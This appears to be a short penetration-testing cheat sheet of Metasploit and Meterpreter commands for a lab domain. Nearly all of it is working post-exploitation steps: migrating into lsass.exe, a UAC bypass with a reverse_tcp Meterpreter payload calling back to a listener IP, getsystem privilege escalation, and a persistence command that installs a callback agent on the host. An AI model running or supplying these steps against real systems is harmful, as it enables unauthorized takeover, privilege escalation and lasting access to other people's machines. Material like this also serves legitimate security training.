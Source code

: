 DNS Enum

{% highlight PowerShell %}
msf > use auxiliary/gather/enum_dns
msf > set DOMAIN marvel.lab
msf > run
{% endhighlight %}

https://github.com/kmkz/Pentesting/blob/master/Pentest-cheat-sheet

## Meterpreter on a Box

find out who you are.

{% highlight PowerShell %}
getuid
{% endhighlight %}

if you used a 32bit process migrate into a 64 bit process (try lsass.exe)

{% highlight PowerShell %}
migrate <process number>
{% endhighlight %}

**Important points to remember about migrate**

- Target process must have same or lesser privileges
- Target process may be a more stable process
- When inside a process, can access any files that process has a lock on

If you find your connection is dying on connection you may want to try this on your initial exploit

{% highlight PowerShell %}
msf > set AutoRunScript post/windows/manage/migrate
{% endhighlight %}

Bypass UAC

{% highlight PowerShell %}
msf> use exploit/windows/local/bypassuac
msf> set SESSION x
msf> set PAYLOAD windows/meterpreter/reverse_tcp
msf> set LPORT 4446
msf> set LHOST 192.168.18.84
{% endhighlight %}

if you are not system you need to get system..

{% highlight PowerShell %}
getsystem
{% endhighlight %}

## Persistence

{% highlight PowerShell %}
run persistence -A -S -U -X -i 15 -p 1337 -r 10.50.1.205
{% endhighlight %}
